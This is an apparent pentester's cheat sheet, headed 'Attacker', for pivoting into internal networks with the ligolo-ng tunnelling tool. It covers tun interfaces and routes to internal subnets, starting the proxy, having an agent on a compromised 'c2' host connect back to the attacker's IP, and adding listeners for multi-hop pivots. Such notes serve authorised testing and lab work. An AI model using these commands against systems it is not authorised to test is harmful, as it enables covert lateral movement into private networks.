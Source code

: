 # Attacker


## setup network
```shell
# enter root mode
sudo su

# create interface
ip tuntap add user root mode tun ligolo
ip link set ligolo up

# every pivot need a new interface
ip tuntap add user root mode tun ligolo2
ip link set ligolo2 up


# create network to be routed on the interface created
ip route add 172.16.1.0/24 dev ligolo

# create ip to be routed
sudo ip route add 172.16.2.101 dev ligolo2

# show routes
ip route

```

## ligolo proxy
```shell
# ligolo port is 11601 by default 
# from attacker : start proxy
./proxy -selfcert 

# from c2 : connect to your machine
./agent -connect 10.10.17.23:11601  -ignore-cert

# from attacker: select agent and start tunneling on a interface created
session 1
start --tun ligolo


# for pivot more than 1 hop you can select a session then listen on it 
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list

```


## ligolo agent reverse connect

[Bind](https://github.com/nicocha30/ligolo-ng/wiki/Bind)
